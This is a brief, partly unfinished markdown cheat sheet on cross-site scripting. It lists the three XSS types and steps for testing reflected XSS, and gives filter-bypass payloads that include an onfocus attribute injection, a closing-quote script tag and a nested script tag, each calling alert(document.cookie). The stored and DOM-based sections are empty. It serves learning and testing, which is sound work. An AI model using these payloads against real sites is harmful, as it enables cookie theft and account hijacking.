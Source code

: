 # XSS Attack

### XSS Basic

There are 3 types of XSS:
* Reflected XSS
* Stored XSS
* DOM-based XSS

### Reflected XSS

1. Detect input parameters and determine how they are input (includes HTTP parameters, POST data, hidden form field values, and predefined radio or selection values)

2. Use input data with each input parameters to see if any responses are triggered.

3. Examine the resulting web page HTML and searching for the test input.

### Bypass XSS filters

Input such as `<script>` and `<` or `>` may be filtered by the web application or browser. 

#### Without using a tag

##### Form
```
<input type="text" name="state" value="INPUT_FROM_USER">
```

##### Form after injecting (`" onfocus="alert(document.cookie)`)

```
<input type="text" name="state" value="" onfocus="alert(document.cookie)">
```
#### Different syntax

Different syntax may bypass the filter but treated by the browser as valid syntax.

```
"><script >alert(document.cookie)</script >

```

#### Bypass non-recursive filtering

For some filter, it only perform once on the string and not recursively. It can be bypass with multiple tag


```
<scr<script>ipt>alert(document.cookie)</script>
```

### Stored XSS


### DOM-based XSS




### How to exploit an XSS

Source:
https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

[https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/](https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/)


